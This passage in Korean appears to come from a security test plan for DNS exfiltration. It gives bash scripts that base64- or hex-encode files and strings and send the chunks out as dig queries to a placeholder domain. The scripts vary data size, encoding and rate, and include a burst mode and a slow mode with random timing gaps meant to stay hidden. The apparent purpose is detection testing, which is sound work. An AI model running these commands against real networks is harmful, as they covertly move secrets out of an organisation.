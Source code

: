 2. **테스트 시나리오**:
   * **데이터 크기별 테스트**:
     ```bash
     # 소량 데이터 유출 테스트 (단일 레코드)
     echo "confidential_small" | base64 | tr -d '\n' > /tmp/small.b64
     cat /tmp/small.b64 | while read line; do dig $(echo $line).test.yourdomain.com; done
     
     # 중간 크기 데이터 유출 테스트 (10KB 파일)
     dd if=/dev/urandom of=/tmp/medium_file bs=1024 count=10
     base64 /tmp/medium_file | fold -w 30 | nl | \
     while read n line; do dig $n.$line.test.yourdomain.com; sleep 0.5; done
     
     # 대용량 데이터 유출 테스트 (1MB 이미지 파일)
     cat /tmp/large_image.jpg | base64 | split -b 30 - chunk_
     for f in chunk_*; do dig $(cat $f).test.yourdomain.com @internal_dns; sleep 0.8; done
     ```
   
   * **전송 속도 테스트**:
     ```bash
     # 고속 전송 테스트 (가능한 빠른 속도로)
     for i in $(seq 1 500); do dig $i.fastexfil.test.yourdomain.com & done
     
     # 은닉 저속 전송 테스트 (불규칙한 간격, 평균 30초)
     cat /tmp/secret_data.b64 | while read line; do 
       dig $(echo $line).slowexfil.test.yourdomain.com;
       sleep $(awk 'BEGIN {print 15 + rand() * 30}');
     done
     ```
   
   * **다양한 인코딩 기법 테스트**:
     ```bash
     # Base64 인코딩 테스트
     echo "secret_data" | base64 | tr -d '\n' > /tmp/b64.txt
     cat /tmp/b64.txt | dig $(cat -).b64.test.yourdomain.com
     
     # Hex 인코딩 테스트
     echo "secret_data" | xxd -p | tr -d '\n' > /tmp/hex.txt
     cat /tmp/hex.txt | dig $(cat -).hex.test.yourdomain.com
     
     # 분할 인코딩 테스트 (청크 지표 포함)
     SECRET="LongSecretMessage123"
     for i in $(seq 0 3 ${#SECRET}); do
       chunk="${SECRET:$i:3}"
       dig $i.$chunk.split.test.yourdomain.com
     done
     ```

